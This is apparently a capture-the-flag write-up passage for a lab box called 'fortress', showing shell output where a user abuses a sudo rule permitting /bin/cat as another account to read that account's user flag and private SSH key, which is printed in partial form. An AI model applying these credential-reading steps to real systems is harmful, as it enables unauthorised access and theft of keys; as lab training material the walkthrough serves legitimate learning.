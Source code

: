 ```bash
h4rdy@fortress:~$ ls -lah
total 28K
drwxr-xr-x 4 h4rdy h4rdy 4.0K Aug 31 02:44 .
drwxr-xr-x 5 root  root  4.0K Jul 25  2021 ..
-rw------- 1 h4rdy h4rdy   57 Aug 31 02:45 .bash_history
-r--r--r-- 1 root  root  3.1K Jul 25  2021 .bashrc
drwx------ 2 h4rdy h4rdy 4.0K Aug 31 02:42 .cache
-r--r--r-- 1 root  root    17 Jul 25  2021 .profile
drwxr-xr-x 2 h4rdy h4rdy 4.0K Jul 25  2021 .ssh
```

<h2>h4rdy´s privileges</h2>
<p>

- j4x0<br>
- /bin/cat</p>


```bash
h4rdy@fortress:~$ sudo -l
Matching Defaults entries for h4rdy on fortress:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User h4rdy may run the following commands on fortress:
    (j4x0n) NOPASSWD: /bin/cat
```

```bash
h4rdy@fortress:/home/j4x0n$ ls -lah
total 32K
drwxr-xr-x 3 j4x0n j4x0n 4.0K Jul 26  2021 .
drwxr-xr-x 5 root  root  4.0K Jul 25  2021 ..
lrwxrwxrwx 1 j4x0n j4x0n    9 Jul 26  2021 .bash_history -> /dev/null
-rw-r--r-- 1 j4x0n j4x0n  220 Jul 25  2021 .bash_logout
-rw-r--r-- 1 j4x0n j4x0n 3.7K Jul 25  2021 .bashrc
-r--r--r-- 1 root  root   187 Jul 25  2021 endgame.txt
-rw-r--r-- 1 j4x0n j4x0n  655 Jul 25  2021 .profile
drwxr-xr-x 2 j4x0n j4x0n 4.0K Jul 25  2021 .ssh
-r-------- 1 j4x0n j4x0n   33 Jul 25  2021 user.txt
```

<h2>User Flag</h2>

```bash
h4rdy@fortress:/home/j4x0n/.ssh$ sudo -u j4x0n /bin/cat /home/j4x0n/user.txt
********************************
```

<h2>j4x0n´s Private Key</h2>

```bash
h4rdy@fortress:/home/j4x0n/.ssh$ sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAos93HTD06dDQA+pA9T/TQEwGmd5VMsq/NwBm/BrJTpfpn8av0Wzm
...
1QQR8Og910EY5W2KbvYuIbKbRrRZwYGPzJNjRqK/zNi4yAnDLayShx7p4ujAVy0rP2r9A2
rDuPscM6HPszTYfhci5eLlw25zN6fvYruh9DwNd3UQpgKh0XW+7kAThBOTpH67AtFqjYS9
k8ToMpypFXDO0AAAAOajR4MG5AMHZlcmZsYXcBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
h4rdy@fortress:/home/j4x0n/.ssh$
```

